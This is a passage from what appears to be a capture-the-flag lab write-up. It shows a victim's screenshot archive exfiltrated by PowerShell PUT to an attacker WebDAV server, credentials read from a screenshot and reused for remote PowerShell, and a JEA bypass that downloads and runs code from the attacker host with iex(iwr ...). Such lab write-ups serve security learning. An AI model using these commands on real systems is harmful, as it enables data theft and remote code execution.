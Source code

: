 ```
car.nginx    | [+] No password was specified.
car.nginx    | [+] Generated random password: SfGrc6Y2
car.nginx    | [+] Creating .htpasswd file.
car.nginx    | [+] WebDAV access allowed for default:SfGrc6Y2
car.nginx    | [+] Starting nginx daemon.
```

Now we can use PowerShell to `PUT` the file onto our system:

```
$auth = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes(("{0}:{1}" -f "default","SfGrc6Y2")))
Invoke-RestMethod -Headers @{Authorization=("Basic {0}" -f $auth)} -Uri "http://10.10.14.7/upload/scr.zip" -Method Put -InFile "C:\temp\scr.zip"  
```

We look at our screenshot collection and can see that the user is using PowerShell trying to connect to a remote system. We copy the commands from the screenshot (by hand) and can connect to the remote system:

```
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("acute\imonks",$passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -scriptblock { Get-Command }
...
CommandType     Name                                               Version    Source               PSComputerName
-----------     ----                                               -------    ------               --------------
Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-ChildItem                                      3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-Command                                        3.0.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Set-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Set-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Write-Output                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
```

Note that the last command specifies `ConfigurationName` which means that [JEA](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.2) is used here and we are limited in what we can run. A common bypass for JEA is to define a custom function and run it, which are doing:

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { function xct { iex(iwr http://10.10.14.7/run.txt -usebasicparsing) };xct }
```
